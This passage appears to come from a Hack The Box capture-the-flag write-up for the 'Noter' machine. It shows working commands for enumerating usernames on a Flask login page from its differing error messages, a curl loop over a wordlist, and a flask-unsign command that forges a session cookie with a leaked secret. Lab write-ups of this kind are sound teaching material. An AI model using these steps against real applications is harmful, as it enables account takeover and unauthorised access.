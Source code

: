 If we try valid user but invalid password we see an error message:

```sh
┌──(root㉿kali)-[~/htb/noter]
└─# curl -s --data-binary 'username=pencer&password=pencer.io' 'http://10.10.11.160:5000/login' | grep -b1 Invalid              
1263-
1264:  <div class="alert alert-danger">Invalid login</div>
1318-
```

If we try invalid user we get a different error message:

```sh
┌──(root㉿kali)-[~/htb/noter]
└─# curl -s --data-binary 'username=pencer.io&password=pencer' 'http://10.10.11.160:5000/login' | grep -b1 Invalid   
1263-
1264:  <div class="alert alert-danger">Invalid credentials</div>
1324-
```

From this we can tell if we have a valid user or not. Which is what we're looking for to sign a new session cookie with the secret we've just found. Let's do a simple loop in bash and use one of the common wordlists that come's with Kali:

```sh
┌──(root㉿kali)-[/usr/share/wordlists/dirb]
└─# while IFS="" read -r p || [ -n "$p" ]
do
  printf '%s' "$p"; curl -s -d "username=$p" -d "password=" 'http://10.10.11.160:5000/login' | grep 'Invalid login'; printf "\n"
done < /usr/share/wordlists/dirb/common.txt

<SNIP>
blue  <div class="alert alert-danger">Invalid login</div>
```

## Sign In As BLue

I could have picked a better wordlist, however after a fair while we found a valid username of **blue**. We can use flask-unsign with this and the secret from before to forge our own cookie:

```sh
┌──(root㉿kali)-[/usr/share/wordlists/dirb]
└─# flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YophSw.2D5PH4mGMxHn8Jdmp1DLLUd68Ck
```

Copy that new cookie and paste in to our session where we are already logged in as my pencer account:
